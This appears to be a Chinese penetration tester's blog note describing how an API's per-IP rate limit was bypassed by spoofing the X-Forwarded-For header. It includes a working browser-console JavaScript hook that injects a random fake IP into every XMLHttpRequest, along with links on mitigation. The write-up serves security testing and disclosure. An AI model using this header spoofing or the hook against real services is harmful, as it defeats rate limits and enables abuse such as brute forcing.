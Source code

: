 ```yaml
---
title: 一次X-Forwarded-For绕过ip限制
date: 2024-03-15 19:25:05
tags:
---
```


* 背景
  * 在进行一次web逻辑漏洞测试的时候，有个接口有请求次数限制。

* 测试过程
  * 逆向了js代码后，发现他没有其他可验证的手段，猜测是对ip的限制。
  * 利用yakit拦截一次请求，添加了X-Forwarded-For: 127.0.0.1。
  * 发现请求次数限制被绕过了。

* 批量利用
  * 经逆向发现他的请求用的是XMLHttpRequest。
  * 控制台执行如下代码，hook xhr的open函数，使每次请求随机X-Forwarded-For ip。
  
 ```javascript
function hookAjax() {
  var originalXHR = window.XMLHttpRequest;
  window.XMLHttpRequest = function() {
    var xhr = new originalXHR();
    var originalOpen = xhr.open;

    xhr.open = function(method, url, async, user, password) {
      originalOpen.apply(this, arguments);

      if (this.readyState === 1) {
        this.setRequestHeader('X-Forwarded-For', generateRandomIP());
      }
    };

    return xhr;
  };
  
  function generateRandomIP() {
    var ip = [];
    for (var i = 0; i < 4; i++) {
      ip.push(Math.floor(Math.random() * 256));
    }
    return ip.join('.');
  }
}
hookAjax();
```
  * 至此已绕过ip限制，定级高危。
  
* 解决方案
  * https://totaluptime.com/kb/prevent-x-forwarded-for-spoofing-or-manipulation/
  * https://xxgblog.com/2018/10/12/x-forwarded-for-header-trick/#%E5%A6%82%E4%BD%95%E9%98%B2%E8%8C%83